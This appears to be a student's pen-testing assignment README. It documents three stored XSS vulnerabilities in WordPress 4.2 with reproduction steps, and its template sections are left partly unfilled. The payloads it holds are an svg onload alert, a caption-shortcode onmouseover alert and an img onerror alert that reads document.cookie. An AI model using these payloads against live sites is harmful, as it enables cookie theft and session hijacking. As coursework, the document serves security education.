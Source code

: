 # Project 7 - WordPress Pen Testing

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. (Required) Vulnerability Name: XSS 

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough: <img src=xss.gif />
- [ ] Steps to recreate: 
  - Create a new post
  - type this line of code in the text editor: http://wpdistillery.vm/<svg onload=alert('test')> 
- [ ] Affected source code:

  
### 2. (Required) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough: <img src=XSS2.gif />
- [ ] Steps to recreate: 
  - Create a new post
  - type this line of code in the text editor: <a href="[caption code=">]</a><a title=" onmouseover=alert(1) ">link</a>
- [ ] Affected source code:


### 3. (Required) Vulnerability types: XSS

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough: <img src=XSS3.gif />
- [ ] Steps to recreate: 
  - Create a new post
  - type this line of code in the text editor: <img src=X onerror=alert(document.cookie)>.jpg 
- [ ] Affected source code:


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...
<!-- Recommended GIF Tools:
[Kap](https://getkap.co/) for macOS
[ScreenToGif](https://www.screentogif.com/) for Windows
[peek](https://github.com/phw/peek) for Linux. -->

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
